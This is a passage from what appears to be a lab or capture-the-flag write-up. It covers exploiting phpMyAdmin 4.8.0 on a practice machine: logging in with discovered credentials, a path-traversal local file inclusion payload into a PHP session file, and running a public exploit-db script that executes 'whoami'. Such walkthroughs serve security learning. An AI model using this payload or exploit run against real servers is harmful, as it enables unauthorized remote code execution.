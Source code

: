 Trying credentials:

- `DBadmin:imissyou` - WORKS

![](img/web-phpmyadmin-main.png)

Noting the phpMyAdmin version (4.8.0 on the bottom right), and googling for phpmyadmin exploits, I came across this:

- [https://www.exploit-db.com/exploits/45020](https://www.exploit-db.com/exploits/45020)

It's a metasploit module that says:

```
phpMyAdmin v4.8.0 and v4.8.1 are vulnerable to local file inclusion,
which can be exploited post-authentication to execute PHP code by
application.
```

Looking at the blog post linked in the metasploit module

- [https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/)

It says you log in, run a malicious sql query containing php code, then (using your phpMyAdmin Session ID) include a session file of that query using the URL + query parameter:

````
/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_<SESSION_ID>
````

And that will execute the malicious php code.

It looks like there is a python script on exploit-db to do this for us:

- [https://www.exploit-db.com/exploits/50457](https://www.exploit-db.com/exploits/50457)

Downloading it and running:

```sh
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou whoami
www-data
```
